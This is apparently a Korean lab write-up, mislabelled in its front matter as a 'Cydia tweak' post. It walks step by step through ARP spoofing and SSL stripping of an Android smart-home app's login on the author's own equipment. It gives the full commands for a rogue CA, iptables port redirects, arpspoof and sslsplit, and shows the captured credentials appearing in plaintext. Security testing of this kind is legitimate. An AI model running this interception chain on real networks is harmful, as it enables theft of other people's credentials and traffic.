 ```yaml
---
layout: post
title:  "Cydia tweak"
tags: IOS Mobile hacking
---
```




# WiFi Spoofing + SSL Strip

Created: 2022년 6월 19일 오후 3:34
Tags: wifi

## 환경 구성

- Kali Linux 2019.2 (VMware)
- Android
- USB Type 무선 랜카드 ipTIME A1000UA-4dBi
- 무선 AP ipTIME N904ns
- WallPad

<aside>
💡 kali 2020부터 ARP Spoofing 도구가 기본으로 설치되지 않음

</aside>

```bash
$ apt-get install dsniff
$ apt-get install fragrouter
```

## SSL strip을 위한 CA 인증서 작성

openSSL을 이용해 CA 인증서 작성

```bash
$ openssl genrsa -out ca.key 4096
$ openssl req -new -x509 -days 3560 -key ca.key -out ca.crt
```

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled.png)

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%201.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%201.png)

## IP 포워딩 및 라우팅 설정

1. IP 포워딩 설정

IP 포워딩 설정으로 다른 클라이언트에서 오는 패킷을 kali를 통해 전달

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward

or

$ sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```

2. 라우팅 설정

iptables 명령으로 80(http), 443(https) 포트를 SSL Strip을 수행하기 위한 포트로 라우팅

```bash
[규칙 확인]
$ iptables -t nat -L

[전체 규칙 삭제]
$ iptables -t nat -F

[규칙 추가]
// HTTP 및 HTTPS 라우팅
$ iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
$ iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443

// SMTP, IMAP, messaging (필요 시 추가)
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443 # (STARTTLS SMTP connections)
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443 # (SSL SMTP connections)
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443 # (SSL IMAP connections)
iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080 # (messaging connections)
```

## ARP Spoofing + SSL strip

1. Android의 MAC주소 확인

kali에서 Android에 ping을 보낸 후 arp로 MAC주소를 확인

```bash
$ ping [victim ip]
$ arp -a
```

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%202.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%202.png)

2. Android를 대상으로 ARP Spoofing 공격 시도

Android의 arp 테이블 내 존재하는 무선 AP의 MAC 주소를 공격자의 MAC 주소로 변경

```bash
$ arpspoof -i [wifi interface] -t [Victim ip] [AP ip]

[ex]
$ arpspoof -i wlan0 -t 192.168.0.6 192.168.0.1
```

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%203.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%203.png)

3. 무선 AP를 대상으로 ARP Spoofing 공격 시도

무선 AP의 arp 테이블 내 존재하는 Android의 MAC 주소를 공격자의 MAC주소로 변경

```bash
$ arpspoof -i [wifi interface] -t [AP ip] [Victim ip]

[ex]
$ arpspoof -i wlan0 -t 192.168.0.1 192.168.0.6
```

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%204.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%204.png)

4. SSL Strip 수행

sslsplit를 이용해 SSL Strip을 수행

```bash
$ mkdir /home/kali/Desktop/ssls/sslsplit
$ mkdir logdir
$ sslsplit -D -l connections.log -j /home/kali/Desktop/ssls/sslsplit -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```

5. Android에서 임의의 기능 동작

Android 스마트홈 앱에서 로그인을 시도

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%205.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%205.png)

6. SSL Strip 패킷 확인

로그인 시도 시 특정 IP의 https 통신을 확인

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%206.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%206.png)

logdir 디렉토리 내 로그에서 로그인 시 입력한 계정이 평문으로 노출되는 것을 확인

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%207.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%207.png)

![WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%208.png](WiFi%20Spoofing%20+%20SSL%20Strip%20bc5eb5a756ee4e61b7217fccf688da0b/Untitled%208.png)